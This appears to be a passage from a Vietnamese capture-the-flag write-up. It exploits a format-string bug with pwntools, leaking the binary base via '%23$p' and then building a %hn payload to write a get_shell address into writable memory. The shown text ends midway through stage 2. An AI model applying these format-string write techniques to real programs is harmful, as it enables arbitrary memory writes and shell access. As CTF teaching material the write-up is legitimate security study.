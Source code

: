 # khai thác 

**ở đây ta có 3 lần fmt** vậy ta sẽ khai thác từng lần nhập

### 1. leak binary address 

- cái này đơn giản nên debug tí là ra:

```python 
####################################
### Stage 1: leak binary address ###
####################################

p.sendlineafter(b'something: ', b'%23$p' )
p.recvuntil(b'You said: ')
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - exe.sym['main']
log.info('exe leak: ' + hex(exe_leak))
log.info('exe base: ' + hex(exe.address))
```

### 2. write get_shell address

![image](https://github.com/gookoosss/CTF/assets/128712571/e75159af-50ba-45b7-af2d-171db9153fc6)


**ta chọn 0x5555555580f0 làm rw_addr**

bây h ta cần gán địa chỉ get_shell vào rw_addr **trong 1 lần nhập** , khá khó chịu đấy

để làm được điều này **ta cần bỏ lần lượt 2byte địa chỉ get_shell vào package**, **gán với mỗi byte 2 trên là  1 địa chỉ rw_addr hợp lý**

```sau đó ta sẽ dùng sorted(package) để sắp xếp số byte cần in ra từ bé đến lớn, vì ta chỉ có thể in nhiều thêm chứ ko thể cắt in ít đi được, đảm bảo chương trình ko bị lỗi```


![image](https://github.com/gookoosss/CTF/assets/128712571/5a96ed3d-0040-41e2-abcd-b0dc11109405)



```python 

########################################
### Stage 2: write get_shell address ###
########################################

# 0x40f0 = offset rw_addr

getshell = exe.sym['get_shell']
rw_addr = exe.address + 0x40f0

package = {
    (getshell >> 0) & 0xffff : rw_addr,
    (getshell >> 16) & 0xffff : rw_addr + 2,
    (getshell >> 32) & 0xffff : rw_addr + 4,
}

order = sorted(package) # sắp xếp lại theo thứ tự từ bé đến lớn
log.info('get shell: ' + hex(getshell))
print(package)
print(order)

payload = f'%{order[0]}c%13$hn'.encode() # in lần 1
payload += f'%{order[1] - order[0]}c%14$hn'.encode() #in lần 2 
payload += f'%{order[2] - order[1]}c%15$hn'.encode() # in lần 3
payload = payload.ljust(64 - 24, b'P')
```